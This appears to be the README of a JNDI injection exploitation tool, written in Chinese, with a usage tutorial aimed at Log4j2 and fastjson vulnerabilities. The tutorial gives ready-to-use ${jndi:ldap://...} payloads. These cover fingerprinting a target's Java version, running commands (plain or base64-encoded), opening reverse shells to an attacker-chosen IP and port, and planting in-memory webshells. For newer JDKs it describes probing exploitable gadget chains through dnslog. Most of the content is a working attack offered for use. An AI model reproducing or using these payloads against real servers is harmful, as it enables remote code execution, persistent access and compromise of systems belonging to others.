 ~~1. 需要依赖tomcat的ObjectFactory类(org.apache.naming.factory.BeanFactory~~
~~2. 需要配合burpsutite的intruder模块~~
~~3. 配合http平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)~~
~~4. **使用tomcat时由于使用的ParallelWebappClassLoader加载第三方lib，所以MLET加载class会报错，故无法使用此模块进行爆破**（后续考虑删除此模块）~~


- - - -
## 使用教程

1. 在VPS上启动工具,利用时讲ip替换为实际VPS的IP地址。
1. `${jndi:ldap://127.0.0.1:1389/basic/${java:version}}`使用${java:version}获取到目标服务器上的java版本(仅仅适用于Log4j2漏洞利用，fastjson等其他漏洞可以跳过此步骤)![image-20220810110336394](images/javaVersion.png)
2. JDK版本小于`11.0.1, 8u191, 7u201, 6u211`版本,可以直接使用basic模块

```
	ldap://0.0.0.0:1389/basic/cmd  (无回显，需要进行url编码)
  ldap://0.0.0.0:1389/basic/base64/[base64_encoded_cmd]
  ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port](反弹shell)
  ldap://0.0.0.0:1389/basic/ReverseShell2/[ip]/[port]
  ldap://0.0.0.0:1389/basic/memshell/[memshellType]（内存马）
```

3. JDK版本大于11.0.1, 8u191, 7u201, 6u211时,需要尝试使用利用链绕过，可以使用${jndi:ldap://127.0.0.1:1389/fuzzbyDNS/[domain]}利用dnslog去判断哪些利用链可以进行利用(只需要发送一次请求)

<img src="images/fuzzbydnslog.png" alt="image-20220810133642336" style="zoom:50%;" />
